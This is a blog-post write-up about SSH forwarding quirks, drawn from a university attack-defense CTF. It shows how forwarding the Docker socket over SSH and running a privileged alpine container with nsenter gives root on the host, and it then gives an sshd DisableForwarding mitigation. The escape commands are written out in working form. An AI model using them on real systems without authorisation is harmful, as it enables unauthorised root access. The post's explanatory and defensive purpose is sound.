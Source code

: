 ```yaml
---
title: "16 SSH Forwarding Quirks"
date: 2020-03-23T10:19:06Z
author: "Viktor Barzin"
description: "Abusing SSH forwarding features and common docker config allows for privilege escalation and secure shell escape onto the docker host."
sitemap:
  priority: 0.3
tags:
  [
    "ssh",
    "docker",
    "privilege escalation",
    "shell escape",
    "unix domain socket",
    "forwarding",
    "ctf",
    "attack-defense",
    "nsenter",
    "disable forwarding",
    "docker privilege escalation",
  ]
firstImgUrl: "https://viktorbarzin.me/images/16-ssh-forwarding-quirks-0-18-47-23-resized.png"
draft: false
---
```


# Introduction

[SSH](https://www.ssh.com/ssh) is a ubiquitous protocol for managing remote machines securely.

Most of the time one would need just shell access to a remote machine to run commands, however, SSH allows for so much more.
One of the interesting features is **SSH forwarding** - you can forward ports, unix sockets, X11 sessions and other interesting stuff.

All of this is fine until you start sharing the ssh server host with other people.
Recently, me and a few other people were organizing an attack-defense style Capture the Flag (CTF) event for my university's cyber security society ([SUCSS](https://www.sucss.org/)).
This blog post will be about a neat trick you can do with SSH forwarding to **escalate privileges** and **escape a restricted shell** environment and gain **root access on the host**.

# Overview of the environment

The environment comprised a single Ubuntu virtual machine (VM) which hosts the entire CTF.
Each team has a user to SSH into this VM and upon successful login is dropped into a docker container.
All of these containers are in the same docker network and can attack each other.

Essentially, this is the environment:

<div style="max-width: 500px; max-height:500px">

![](/images/16-ssh-forwarding-quirks-0-18-47-23.png)

</div>

<br>
This is how the user shell looks like:

```bash
#!/bin/bash

name="$USER"_group
docker run -d -it --rm --pids-limit=50 --cpus="0.5" -m="500m" --device-write-bps /dev/sda:1mb --name $name sucss-group-ctf sudo -u $USER /bin/bash 2>/dev/null

docker exec -it -u $USER $name /bin/bash
```

This shell runs a container for the team and drops them into a shell on the container.

# Abusing SSH forwarding

Now, the above shell looks secure enough and does not let the user at any point to run any commands on the host.

Secure, right?

Well, not quite.

As I mentioned earlier, SSH is quite a powerful protocols and can forward a lot of stuff including unix domain sockets.
The docker CLI, by default, uses [a unix domain socket](https://stackoverflow.com/questions/35110146/can-anyone-explain-docker-sock#answer-35110344) to communicate with the docker API.
This essentially means that all the `docker ps`, `docker run`, `docker network ls` etc. commands **all** go through that socket.

I reckon you already see the arising issue there - you could SSH into the host and forward the docker socket **from the host** locally and then escape on the host.

```bash
$ ssh -L $PWD/docker.sock:/var/run/docker.sock <host>
```

(Forwarding unix sockets requires SSH >=6.7 which you should be running)

Now if we run `docker` using the forwarded socket we will communicate with the remote docker daemon:

```bash
$ docker -H unix://docker.sock ps
```

# Popping a shell

Using docker access to get a shell on the host is now trivial.
We need to spawn a privileged container and mount the host rootfs inside.
We can do so using:

```bash
docker run --privileged --pid=host -it alpine sh
```

- --privileged : grants additional permissions to the container, it allows the container to gain access to and mount the devices of the host (/dev)
- --pid=host : allows the containers to use the processus tree of the Docker host (the VM in which the Docker daemon is running)

The easiest way to spawn a shell using the host rootfs is using the `nsenter` command:

```bash
$ nsenter -t 1 -m -u -n -i sh
```

From the help page:

```
BusyBox v1.31.1 () multi-call binary.

Usage: nsenter [OPTIONS]PROG [ARGS]]

         -t PID          Target process to get namespaces from
         -m[FILE]        Enter mount namespace
         -u[FILE]        Enter UTS namespace (hostname etc)
         -i[FILE]        Enter System V IPC namespace
         -n[FILE]        Enter network namespace
         -p[FILE]        Enter pid namespace
         -U[FILE]        Enter user namespace
         -S UID          Set uid in entered namespace
         -G GID          Set gid in entered namespace
         --preserve-credentials  Don't touch uids or gids
         -r[DIR]         Set root directory
         -w[DIR]         Set working directory
         -F              Don't fork before exec'ing PROG
```

# tl;dr

To get a shell abusing the SSH forwarding capabilities and the docker daemon do:

```bash
$ ssh -L $PWD/docker.sock:/var/run/docker.sock <host>
```

in one shell and in another

```bash
$ docker -H unix://docker.sock run --privileged --pid=host -it alpine nsenter -t 1 -m -u -n -i sh
```

Voala!

# Mitigation

This is possible because of 2 things:

- Default sshd config allows forwarding
- Adding the user to the `docker` group

The second is often done to let people run `$ docker ...` as opposed to `$ sudo docker ...`.
For this environment it's needed because each user needs to start a container and drop the user inside.
The process needs to be automatic and unattended so `sudo` must be passwordless but that's a hassle to setup per user.
Thus adding the user to the `docker` group is the easiest thing to do.

You can think of the above 2 conditions as prerequisites for this vulnerability to exist.
If you fix any of them you would mitigate this issue.

The change you need to make in `/etc/ssh/sshd_config` is adding

```xorg.conf
DisableForwarding yes
```

This disables all forwarding features and I strongly recommend having it in there as a secure default and enable it on per-user basis when needed.

Once you have this in your ssh config, trying the same trick again yields these errors:

In the SSH shell:

```bash
user@host:~$ channel 2: open failed: connect failed: open failed
channel 2: open failed: connect failed: open failed
channel 2: open failed: connect failed: open failed
```

And when you run

```bash
╰─$ docker -H unix://docker.sock run --privileged --pid=host -it alpine nsenter -t 1 -m -u -n -i sh
docker: error during connect: Post http://docker.sock/v1.40/containers/create: read unix @->/home/viktor/docker.sock: read: connection reset by peer.
See 'docker run --help'.
```

# Conclusion

This little neat trick exploits the powers of SSH forwarding as well as the privileges docker gives a user.
**Effectively if a user can spawn docker containers, they have root on that machine** which is scary when you think about it.

Shout out to [Tim Stallard](https://timstallard.me.uk/) for pointing this trick.
Here are a couple of articles on [how to forward the docker socket over ssh](https://medium.com/@dperny/forwarding-the-docker-socket-over-ssh-e6567cfab160) and [how to get a shell on the host from a container](https://medium.com/lucjuggery/a-container-to-access-the-shell-of-the-host-2c7c227c64e9).

Thanks for reading!
